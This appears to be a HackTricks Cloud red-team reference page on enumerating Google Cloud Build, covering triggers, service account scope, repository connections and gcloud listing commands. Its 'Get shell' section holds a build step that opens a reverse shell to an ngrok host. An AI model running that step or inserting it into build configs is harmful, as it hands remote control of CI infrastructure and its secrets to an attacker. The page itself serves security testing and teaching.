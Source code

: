 # GCP - Cloud Build Enum

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

Google Cloud Build is a managed CI/CD platform that **automates software build** and release processes, integrating with **source code repositories** and supporting a wide range of programming languages. It **allows developers to build, test, and deploy code automatically** while providing flexibility to customize build steps and workflows.

Each Cloud Build Trigger is **related to a Cloud Repository or directly connected with an external repository** (Github, Bitbucket and Gitlab).

{% hint style="success" %}
I couldn't see any way to steal the Github/Bitbucket token from here or from Cloud Repositories because when the repo is downloaded it's accessed via a [https://source.cloud.google.com/](https://source.cloud.google.com/) URL and Github is not accessed by the client.
{% endhint %}

### Events

The Cloud Build can be triggered if:

* **Push to a branch**: Specify the branch
* **Push a new tag**: Specify the tag
* P**ull request**: Specify the branch that receives the PR
* **Manual Invocation**
* **Pub/Sub message:** Specify the topic
* **Webhook event**: Will expose a HTTPS URL and the request must be authenticated with a secret

### Execution

There are 3 options:

* A yaml/json **specifying the commands** to execute. Usually: `/cloudbuild.yaml`
  * Only one that can be specified “inline” in the web console and in the cli
  * Most common option
  * Relevant for unauthenticated access
* A **Dockerfile** to build
* A **Buildpack** to build

### SA Permissions

The **Service Account has the `cloud-platform` scope**, so it can **use all the privileges.** If **no SA is specified** (like when doing submit) the **default SA** `<proj-number>@cloudbuild.gserviceaccount.com` will be **used.**

By default no permissions are given but it's fairly easy to give it some:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Approvals

It's possible to config a Cloud Build to **require approvals for build executions** (disabled by default).

### Connections & Repositories

Connections can be created over:

* **GitHub:** It will show an OAuth prompt asking for permissions to **get a Github token** that will be stored inside the **Secret Manager.**
* **GitHub Enterprise:** It will ask to install a **GithubApp**. An **authentication token** from your GitHub Enterprise host will be created and stored in this project as a S**ecret Manager** secret.
* **GitLab / Enterprise:** You need to **provide the API access token and the Read API access toke**n which will stored in the **Secret Manager.**

Once a connection is generated, you can use it to **link repositories that the Github account has access** to.

This option is available through the button:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Note that repositories connected with this method are **only available in Triggers using 2nd generation.**
{% endhint %}

### Connect a Repository

This is not the same as a **`connection`**. This allows **different** ways to get **access to a Github or Bitbucket** repository but **doesn't generate a connection object, but it does generate a repository object (of 1st generation).**

This option is available through the button:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Storage

Sometimes Cloud Build will **generate a new storage to store the files for the trigger**. This happens for example in the example that GCP offers with:

```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
  cd cloud-console-sample-build && \
  gcloud builds submit --config cloudbuild.yaml --region=global
```

A Storage bucket called [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) is created to store a `.tgz` with the files to be used.

### Get shell

```yaml
steps:
  - name: bash
    script: |
      #!/usr/bin/env bash
      bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
  logging: CLOUD_LOGGING_ONLY
```

### Enumeration

You could find **sensitive info in build configs and logs**.

```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
    echo "Listing build connections in region: $region"
    connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
    if [[ ${#connections[@]} -eq 0 ]]; then
        echo "No connections found in region $region."
    else
        for connection in $connections; do
            echo "Describing connection $connection in region $region"
            gcloud builds connections describe "$connection" --region="$region"
            echo "-----------------------------------------"
        done
    fi
    echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
    echo "Listing build worker-pools in region: $region"
    gcloud builds worker-pools list --region="$region"
    echo "-----------------------------------------"
done
```

### Privilege Escalation

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Unauthenticated Access

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Exploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
